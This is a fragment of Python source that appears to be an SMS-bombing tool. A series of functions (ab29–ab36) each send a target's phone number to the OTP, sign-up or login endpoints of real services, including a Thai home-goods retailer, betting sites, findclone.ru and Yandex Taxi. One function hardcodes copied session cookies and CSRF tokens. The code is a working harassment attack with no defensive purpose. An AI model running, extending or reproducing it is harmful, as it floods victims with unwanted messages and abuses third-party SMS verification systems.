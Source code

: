 

def ab29(phone):

    post("https://www.homepro.co.th/service/user/profile/otp.jsp", data=f"action=otp&user_mobile_number={phone}",headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36","x-csrf-token": "AaqCrWeoDAPdJqmFtCnSCJN8a1mECsPB","content-type": "application/x-www-form-urlencoded; charset=UTF-8","cookie": "h11e_uuid=5da6d569-5a72-4014-afef-40990862f26e; ltcid=4ac7dc78-ae73-4617-ba28-75b31ed3bc9f; ltsid=9b139725-fc38fbcc; _gid=GA1.3.1373861600.1635677257; _fbp=fb.2.1635677258036.1072722582; h11e_data1=ZTE1MWFkY2ZjMDk3ODk1MzhiMzk1MzM0OTc5NDMzMmIzOWEyOGVhNWU3NWU1NzQzODJhODMyM2U1MWI3MGQ0Yzg1MWM4MGEzYjJmMjUwYTUxMThjZGU2YTQ3NzVkNDMy; h11e_lang=th; _dc_gtm_UA-112826849-3=1; h11e_user=N2NlM2E4ODNkYjQxNjcwNTg3YzgxN2UwZWJiMDFkNmU0ZWUzM2M0M2U2YTJmNTkxMzA2NjYxYzU2MTFiNjFjNw==; h11e_csrf=AaqCrWeoDAPdJqmFtCnSCJN8a1mECsPB; JSESSIONID=06E6906132FE92B731D49BFD2F00877D; _ga=GA1.3.106485705.1635677257; _ga_RMXSTMQMK7=GS1.1.1635677253.1.1.1635677348.0"})



def ab30(phone):

    post("https://www.berlnw.com/reservelogin", data={"p_myreserve": f"{phone}"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})



def ab31(phone):

    post("https://www.kickoff28.com/action.php?mode=PreRegister", data={"tel": f"{phone}"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})



def ab32(phone):

    post("https://1ufabet.com/_ajax_/request-otp", data={"request_otp[phoneNumber]": f"{phone}", "request_otp[termAndCondition]": "1", "request_otp[_token]": "XBNcvQIzJK1pjh_2T0BBzLiDa6vSivktDN317mbw3ws"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})



def ab33(phone):

    post("https://findclone.ru/register?phone={phone}")



def ab34(phone):

    post("https://gettgo.com/sessions/otp_for_sign_up", data={"mobile":f"{phone}"})



def ab35(phone):

    post("https://api.dgashopqr.morchana.in.th/logins", headers={"User-Agent": useragent}, data={"phone": phone})



def ab36(phone):

    post("https://taxi.yandex.kz/3.0/launch/", data = {'phone': f"{phone}"})
